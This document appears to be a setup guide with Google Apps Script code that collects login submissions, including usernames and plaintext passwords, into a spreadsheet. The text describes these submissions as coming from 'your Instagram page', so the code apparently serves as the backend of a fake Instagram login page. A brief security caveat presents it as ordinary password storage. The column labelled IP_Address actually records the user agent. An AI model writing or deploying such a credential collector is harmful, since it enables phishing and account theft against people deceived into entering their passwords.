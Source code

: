 # Google Apps Script - Login Data Handler

Add this code to your existing Google Apps Script to handle login submissions:

## Updated Apps Script Code

```javascript
function doPost(e) {
  try {
    // Parse the incoming data
    const data = JSON.parse(e.postData.contents);
    console.log('Received data:', data);
    
    // Get or create the spreadsheet
    const spreadsheetId = 'YOUR_SPREADSHEET_ID'; // Replace with your actual spreadsheet ID
    const spreadsheet = SpreadsheetApp.openById(spreadsheetId);
    
    let sheet;
    let rowData;
    
    // Handle different data types
    if (data.type === 'login') {
      // Handle login data
      sheet = getOrCreateSheet(spreadsheet, 'Login_Data');
      
      // Set headers if this is the first row
      if (sheet.getLastRow() === 0) {
        sheet.getRange(1, 1, 1, 4).setValues([
          ['Timestamp', 'Username', 'Password', 'IP_Address']
        ]);
      }
      
      rowData = [
        data.timestamp || new Date().toISOString(),
        data.username,
        data.password, // Be careful with storing passwords in production!
        e.parameter.userAgent || 'Unknown'
      ];
      
    } else {
      // Handle regular form data (existing logic)
      sheet = getOrCreateSheet(spreadsheet, 'Form_Submissions');
      
      // Set headers if this is the first row
      if (sheet.getLastRow() === 0) {
        sheet.getRange(1, 1, 1, 4).setValues([
          ['Timestamp', 'Name', 'Place', 'Hobi']
        ]);
      }
      
      rowData = [
        new Date().toISOString(),
        data.name,
        data.place,
        data.hobi
      ];
    }
    
    // Add the data to the sheet
    const nextRow = sheet.getLastRow() + 1;
    sheet.getRange(nextRow, 1, 1, rowData.length).setValues([rowData]);
    
    console.log('Data added to sheet successfully');
    
    // Return success response
    return ContentService
      .createTextOutput(JSON.stringify({
        success: true,
        message: 'Data submitted successfully',
        timestamp: new Date().toISOString(),
        row: nextRow
      }))
      .setMimeType(ContentService.MimeType.JSON);
      
  } catch (error) {
    console.error('Error processing request:', error);
    
    return ContentService
      .createTextOutput(JSON.stringify({
        success: false,
        error: error.toString(),
        timestamp: new Date().toISOString()
      }))
      .setMimeType(ContentService.MimeType.JSON);
  }
}

// Helper function to get or create a sheet
function getOrCreateSheet(spreadsheet, sheetName) {
  let sheet = spreadsheet.getSheetByName(sheetName);
  
  if (!sheet) {
    sheet = spreadsheet.insertSheet(sheetName);
    console.log('Created new sheet:', sheetName);
  }
  
  return sheet;
}

// Test function - you can run this to test your script
function testLoginData() {
  const testData = {
    type: 'login',
    username: 'testuser',
    password: 'testpass',
    timestamp: new Date().toISOString()
  };
  
  const mockEvent = {
    postData: {
      contents: JSON.stringify(testData)
    },
    parameter: {
      userAgent: 'Test-Agent'
    }
  };
  
  const result = doPost(mockEvent);
  console.log('Test result:', result.getContent());
}
```

## Setup Instructions:

1. **Open your existing Google Apps Script project**
2. **Replace your existing `doPost` function** with the updated code above
3. **Add the helper functions** (`getOrCreateSheet` and `testLoginData`)
4. **Update the `spreadsheetId`** with your actual Google Sheets ID
5. **Deploy the script** and update your webhook URL if needed

## What This Does:

### For Login Data:
- ✅ Creates a "Login_Data" sheet in your spreadsheet
- ✅ Stores: Timestamp, Username, Password, User Agent
- ✅ Handles login form submissions from your Instagram page

### For Regular Form Data:
- ✅ Creates a "Form_Submissions" sheet
- ✅ Stores: Timestamp, Name, Place, Hobi
- ✅ Maintains compatibility with your existing forms

## Security Note:
⚠️ **Important**: Storing passwords in plain text is not secure for production use. Consider:
- Hashing passwords before storing
- Using separate authentication services
- Implementing proper security measures

## Testing:
1. Run the `testLoginData()` function in Apps Script to test
2. Check your spreadsheet for the test data
3. Submit the form from your website to verify end-to-end functionality
